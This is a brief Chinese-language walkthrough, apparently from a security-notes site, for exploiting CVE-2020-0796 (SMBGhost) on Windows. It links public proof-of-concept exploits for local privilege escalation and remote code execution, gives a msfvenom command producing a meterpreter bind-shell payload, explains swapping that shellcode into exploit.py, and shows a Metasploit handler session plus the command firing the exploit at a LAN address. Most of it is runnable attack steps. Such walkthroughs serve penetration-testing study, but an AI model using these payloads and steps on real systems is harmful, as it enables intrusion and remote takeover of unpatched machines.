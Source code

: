 
<a-alert type="success" message="CVE-2020-0796 本地提权EXP https://github.com/danigargu/CVE-2020-0796" description="" showIcon>
</a-alert>
<br/>

运行应用程序后弹出cmd窗口为 system权限

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627103611077-e1fc15be-d3ea-4036-82f2-5cf7a90f7ea9.png)

或者使用 MSF的内置EXP windows/local/cve_2020_0796_smbghost 来本地提权 

<a-alert type="success" message="https://github.com/chompie1337/SMBGhost_RCE_PoC" description="" showIcon>
</a-alert>
<br/>

`msfvenom生成reversed shellcode`

`msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py`

将生成exp.py中的shellcode替换exploit.py中的shellcode

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627103611172-2054aa5a-50ed-4b22-b507-2e2708bb277b.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627103611207-6e81b26c-ebc8-4012-a66a-cd4cb919ca53.png)

`buf 要替换为 USER_PAYLOAD`，使用 MSF, `注意有蓝屏概率`

```shell
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
执行脚本即可
python3 exploit.py  -ip 192.168.1.110
```

